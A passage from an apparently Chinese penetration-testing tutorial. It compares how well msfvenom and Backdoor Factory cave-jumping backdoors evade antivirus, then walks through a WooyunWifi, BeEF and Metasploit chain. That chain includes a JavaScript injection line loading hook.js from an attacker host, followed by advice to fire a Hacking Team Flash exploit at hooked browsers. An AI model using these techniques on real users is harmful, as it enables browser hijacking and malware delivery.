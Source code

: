 最后，对比一下文中所述的三种挂后门方式：

MSFVENOM –k –t exe

[![](http://static.wooyun.org//drops/20150811/2015081103412215141.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/vs001.png)

MSFVENOM –t exe

[![](http://static.wooyun.org//drops/20150811/2015081103412355213.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/vs002.png)

BDF Cave jumping

[![](http://static.wooyun.org//drops/20150811/2015081103412315115.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/vs003.png)

然后对比一下32位挂后门和64位挂后门的效果：

[![](http://static.wooyun.org//drops/20150811/2015081103412394651.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/vs004.png)

[![](http://static.wooyun.org//drops/20150811/2015081103412368243.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/vs005.png)

因此，BDF在自动化挂后门流程的同时，也实现了CTP方式挂后门的功能，这也就是之前手动选择Code Cave的原因，根据测试结果看来，Cave跳转方式过杀软的效果最好，而64位后门比32位后门的隐蔽性更高

0x04 WooyunWifi+beEF+Metasploit测试流程
=====

WooyunWifi的WEB配置：

在WooyunWifi的WEB界面中点击Settings（高级设置）按钮，在jsInject选项中填写要注入的JS语句，例：

```
document.write("<script language='javascript' src='http://192.168.1.163:3000/hook.js'></script>");

```

[![](http://static.wooyun.org//drops/20150811/2015081103412369617.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/beefconfig.png)

我们注入的是JS语句，请不要混淆“JS语句”、“HTML标签”和“JS文件”的区别，在beEF中会自动生成hook.js并提示其URL地址，我们要想让beEF成功hook到目标浏览器，就要在目标浏览器上对应页面执行hook.js，因此我们使用JS语法document.write写入一个html标签，然后由标签来在当前页面加载hook.js（js执行的页面对beEF有重大影响，建议以这种方式在当前页面进行hook，您也可以尝试其他方式）

请先启动beef，Kali linux默认情况下集成了beEF，可以通过beef-xss命令启动，或者在快捷启动栏里也可以找到启动器

hook成功后，将在beef“Hooked Browsers”里面弹出上线的浏览器，在这里可以看到详细的浏览器信息

[![](http://static.wooyun.org//drops/20150811/2015081103412380701.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/beefpanel.png)

如图，目标浏览器为IE 9，并且支持Flash，使用老版本IE还开着Flash这基本上就是随意拿SHELL的了

上www.exploit-db.com找一个最新的exploit，比如hacking team的flash漏洞，放在msf的modules文件夹下，然后按照exploit代码mkdir并且touch一个可读写的swf文件（具体路径可以先运行报错一遍看看在哪）

但是，我是一个口是心非的人，因为我在hacking team事件当天就升级了Flash，降级基本上不可能，而且老版本如果一旦更新就是最新版，实在不想浪费时间去配置个Flash 18.0.0.194特定的版本
